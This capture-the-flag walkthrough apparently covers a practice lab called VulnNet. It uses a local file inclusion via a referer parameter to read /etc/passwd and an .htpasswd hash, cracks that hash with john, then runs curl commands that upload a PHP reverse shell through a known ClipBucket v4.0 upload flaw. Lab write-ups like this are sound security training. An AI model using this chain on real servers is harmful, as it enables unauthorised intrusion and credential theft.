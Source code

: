 Pretty much good at everything and we can't find anything for now. Let's try to examine .js files.

## js/index__d8338055.js

```
n.o = function(e, t) {
        return Object.prototype.hasOwnProperty.call(e, t)
    }, n.p = "http://vulnnet.thm/index.php?referer=", n(n.s = 0) => Let's try to LFI
}({
    0: function(e, t, n) {
        e.exports = n("O14P")
    },
    O14P: function(e, t, n) {
``` 

# POC => http://10.10.73.202/index.php?referer=/etc/passwd => We have 2 users server-management and root

Since we have LFI and HTTP BASIC AUTHORIZATION FORM passwords are stored in .htpasswd. 
Accessing `http://10.10.73.202/index.php?referer=/etc/apache2/.htpasswd`. 
We have credentials `developers:$apr1$ntOz2ERF$Sd6FT8YVTValWjL7bJv0P0`. Let's crack it using john.

john --wordlist=rockyou.txt hash => `9972761drmfsls` is the password for developers.
Now we can access `broadcast.vulnnet.thm`. We got `ClipBucket v4.0` and searching in searchsploit we got 

Upload arbitrary files

```
$ curl -F "file=@pfile.php" -F "plupload=1" -F "name=anyname.php"
"http://$HOST/actions/beats_uploader.php"

$ curl -F "file=@pfile.php" -F "plupload=1" -F "name=anyname.php"
"http://$HOST/actions/photo_uploader.php"
```
## Payload

```
curl -u developers:9972761drmfsls -F "file=@rev.php" -F "plupload=1" -F "name=rev.php" "http://broadcast.vulnnet.thm/actions/beats_uploader.php"

creating file{"success":"yes","file_name":"1617209220b60198","extension":"php","file_directory":"CB_BEATS_UPLOAD_DIR"}
```

Accessing `http://broadcast.vulnnet.thm/actions/CB_BEATS_UPLOAD_DIR/1617209220b60198.php` we have a shell.

# /var/www/html/include/dbconnect.php

```
<?php

	/**
	* @Software : ClipBucket
	* @License : CBLA
	* @version :ClipBucket v2.1
	*/

	$BDTYPE = 'mysql';
	//Database Host
	$DBHOST = '';
	//Database Name
	$DBNAME = 'VulnNet';
```
